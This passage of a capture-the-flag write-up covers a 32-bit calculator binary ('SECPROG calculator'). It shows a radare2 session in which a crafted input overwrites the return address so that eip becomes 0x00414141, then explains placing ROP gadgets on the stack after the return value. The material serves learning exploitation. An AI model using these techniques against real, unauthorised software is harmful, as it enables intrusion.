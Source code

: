 Now it's know how to trigger the exploit and how calculate the gadgets.

```
Trigger exploit
=== Welcome to SECPROG calculator ===
hit breakpoint at: 8049379
:> dc
+360+4276545
hit breakpoint at: 80493ff
:> dc
4266409
hit breakpoint at: 8049416
:> pxw @ ebp
0xffffd848  0x004119a9 0x00414141 0x080ec200 0x08049434  ..A.AAA.....4...
0xffffd858  0xffffd8fc 0x080481b0 0x00000000 0x080ec00c  ................
0xffffd868  0x08049c30 0x0804967a 0x00000001 0xffffd8f4  0...z...........
0xffffd878  0xffffd8fc 0x00000000 0x00000000 0x080481b0  ................
0xffffd888  0x00000000 0x080ec00c 0x08049c30 0x1e89c5b3  ........0.......
0xffffd898  0xe815545c 0x00000000 0x00000000 0x00000000  \T..............
0xffffd8a8  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffffd8b8  0x00000000 0x00000000 0x00000001 0x00000000  ................
0xffffd8c8  0x00000000 0x08048d4b 0x08049452 0x00000001  ....K...R.......
0xffffd8d8  0xffffd8f4 0x08049b90 0x08049c30 0x00000000  ........0.......
0xffffd8e8  0xffffd8ec 0x00000000 0x00000001 0xffffda8c  ................
0xffffd8f8  0x00000000 0xffffdac2 0xffffdad3 0xffffdade  ................
0xffffd908  0xffffdaec 0xffffdafd 0xffffdb9c 0xffffdbaf  ................
0xffffd918  0xffffdbc4 0xffffdbd7 0xffffdbf6 0xffffdc2c  ............,...
0xffffd928  0xffffdc41 0xffffdc58 0xffffdc67 0xffffdc7e  A...X...g...~...
0xffffd938  0xffffdc92 0xffffdcaa 0xffffdcbf 0xffffdcd3  ................
:> dc
ciao
hit breakpoint at: 8049432
:> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00414141 code=1 ret=0
:> dr
eax = 0x00000000
ebx = 0x080481b0
ecx = 0xffffd27b
edx = 0x00000000
esi = 0x00000000
edi = 0x080ec00c
esp = 0xffffd850
ebp = 0x004119a9
eip = 0x00414141
eflags = 0x00010246
oeax = 0xffffffff
```

Gadgets can be placed in the stack at ebp address after the return value,
this is very convenient since the LEAVE instruction at the end of `sym.calc()` will put esp = ebp.
So it is not required ROP gadgets to achieve the stack pivoting.
